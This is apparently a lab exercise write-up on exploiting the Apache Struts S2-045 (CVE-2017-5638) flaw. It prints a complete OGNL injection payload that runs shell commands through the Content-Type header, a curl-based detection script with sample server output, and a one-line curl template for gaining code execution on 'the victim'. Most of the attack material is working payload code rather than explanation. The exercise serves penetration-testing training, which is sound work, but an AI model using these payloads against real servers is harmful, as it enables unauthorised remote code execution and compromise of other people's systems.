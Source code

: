 
/usr/local/bin/score UUID

You can access this exercise using the following URL: http://ptl-8c1ff287-f36d3391.libcurl.so/. 

The payload

A lot of exploits are already available, most of them are just wrappers around the following payload:

``` sh
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

```

Detection

We can easily tweak this payload to allow us to detect the vulnerability without trying to run command.

``` sh

%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}

```

``` sh
$ cat detect.sh 
```

``` sh
curl --header "Content-Type: %{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}" $1 

```

``` sh
$ sh detect.sh [SERVER]
```
``` html
test

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>

```

Gaining code execution
Gaining code execution with this payload is as simple as running a curl command with the right argument:

``` sh
$ curl --header "Content-Type: [PAYLOAD]" http://[SERVER]/
```

Where:

[PAYLOAD] is your payload.
[SERVER] is the victim.

Conclusion
This exercise explained how to gain code execution when a Struts application is vulnerable to s2-045. When you are coming across a Struts application, it's essential that you test for this issue.


https://securityonline.info/exploiting-apache-struts-s2-045-cve-2017-5638-vulnerability-with-metasploit/ 
